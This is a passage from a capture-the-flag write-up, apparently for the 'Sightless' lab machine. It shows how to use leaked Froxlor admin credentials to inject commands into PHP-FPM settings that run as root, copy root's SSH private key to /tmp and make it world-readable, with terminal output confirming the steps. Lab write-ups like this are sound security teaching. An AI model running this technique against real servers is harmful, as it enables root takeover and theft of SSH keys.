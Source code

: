![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241028_chrome_credential.png)

Now we have credentials for Froxlor login in port 8080 with user ```admin``` and password ```ForlorfroxAdmin```

The Froxlor allow you to execute cmd with the permissions of user. Add shell commands to PHP-FPM versions, this shell will execute when PHP-FPM restart:

```shell
cp /root/.ssh/id_rsa /tmp/id_rsa
```
After that, go to settings, to PHP-FPM disable and enable to execute the command

```console
michael@sightless:/tmp$ ls
Crashpad                                                                      systemd-private-5fd37ac3a54d4175aa5c6a023a1d4967-systemd-logind.service-ld40RM
id_rsa                                                                        systemd-private-5fd37ac3a54d4175aa5c6a023a1d4967-systemd-resolved.service-YZpT2I
systemd-private-5fd37ac3a54d4175aa5c6a023a1d4967-apache2.service-mdHAPw       systemd-private-5fd37ac3a54d4175aa5c6a023a1d4967-systemd-timesyncd.service-coRIyn
systemd-private-5fd37ac3a54d4175aa5c6a023a1d4967-ModemManager.service-FFWiMK  vmware-root_784-2966103535
```

But permissions are not guaranteed for reading, so we need to execute chmod for this file

```shell
chmod 644 /tmp/id_rsa
```

After run chmod, the permissions of ```id_rsa``` are changed

```console
michael@sightless:/tmp$ ls -la
total 68
drwxrwxrwt 16 root root 4096 Oct 28 15:50 .
drwxr-xr-x 18 root root 4096 Sep  3 08:20 ..
drwx------  6 john john 4096 Oct 28 15:19 Crashpad
drwxrwxrwt  2 root root 4096 Oct 28 15:17 .font-unix
drwxrwxrwt  2 root root 4096 Oct 28 15:17 .ICE-unix
-rw-r--r--  1 root root 3381 Oct 28 15:45 id_rsa
drwx------  3 john john 4096 Oct 28 15:19 .org.chromium.Chromium.CnWiU5
drwx------  2 john john 4096 Oct 28 15:19 .org.chromium.Chromium.qY7jSQ
drwx------  3 root root 4096 Oct 28 15:17 systemd-private-5fd37ac3a54d4175aa5c6a023a1d4967-apache2.service-mdHAPw
drwx------  3 root root 4096 Oct 28 15:17 systemd-private-5fd37ac3a54d4175aa5c6a023a1d4967-ModemManager.service-FFWiMK
drwx------  3 root root 4096 Oct 28 15:17 systemd-private-5fd37ac3a54d4175aa5c6a023a1d4967-systemd-logind.service-ld40RM
```
